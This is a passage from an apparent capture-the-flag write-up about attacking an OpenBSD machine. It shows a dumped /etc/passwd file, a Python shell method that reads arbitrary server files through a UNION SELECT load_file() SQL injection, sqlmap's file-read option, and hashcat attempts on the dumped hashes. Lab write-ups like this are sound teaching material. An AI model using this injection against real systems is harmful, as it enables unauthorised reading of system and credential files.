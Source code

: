     _eigrpd:*:106:106:EIGRP Daemon:/var/empty:/sbin/nologin
    _vmd:*:107:107:VM Daemon:/var/empty:/sbin/nologin
    _tftp_proxy:*:108:108:tftp proxy daemon:/nonexistent:/sbin/nologin
    _ftp_proxy:*:109:109:ftp proxy daemon:/nonexistent:/sbin/nologin
    _sndiop:*:110:110:sndio privileged user:/var/empty:/sbin/nologin
    _syspatch:*:112:112:syspatch unprivileged user:/var/empty:/sbin/nologin
    _slaacd:*:115:115:SLAAC Daemon:/var/empty:/sbin/nologin
    nobody:*:32767:32767:Unprivileged user:/nonexistent:/sbin/nologin
    _mysql:*:502:502:MySQL Account:/nonexistent:/sbin/nologin
    lucille:*:1002:1002:,,,:/home/lucille:/bin/csh
    node:*:1003:1003::/home/node:/bin/ksh
    _dbus:*:572:572:dbus user:/nonexistent:/sbin/nologin
    _redis:*:686:686:redis account:/var/redis:/sbin/nologin
    david:*:1004:1004:,,,:/home/david:/bin/csh
    john:*:1005:1005::/home/john:/bin/csh
    ftp:*:1006:1006:FTP:/home/ftp:/sbin/nologin
    , name: 2]
    

I’ll add a `read` command to my Python shell:

    
    
        def do_read(self, args):
            if len(args) == 0:
                print("[-] Usage: read [filename]")
                return
            results = self.send_connected(f"3 union select load_file('{args}'),2 from information_schema.user_privileges")
            print(results[5:-10])
    

`sqlmap` will also read files using `--file-read=/etc/passwd`, but it saves it
to a file which I then have to open, which is a minor pain.

### Hashcat Failures

I spent some time with `hashcat` trying to break both the token and the
passwords for the accounts dumped from the database. Both looks like SHA256
hashes, but no wordlists I tried returns anything.

## Access to Chat

### Filesystem Enumeration

#### unbound

I tried to read the Unbound config file, but failed:

    
    
    injection> read /etc/unbound/unbound.conf
    null
    

On OpenBSD, it’s actually at `/var/unbound/etc/unbound.conf` according to [the
docs](https://man.openbsd.org/unbound.conf). That worked:
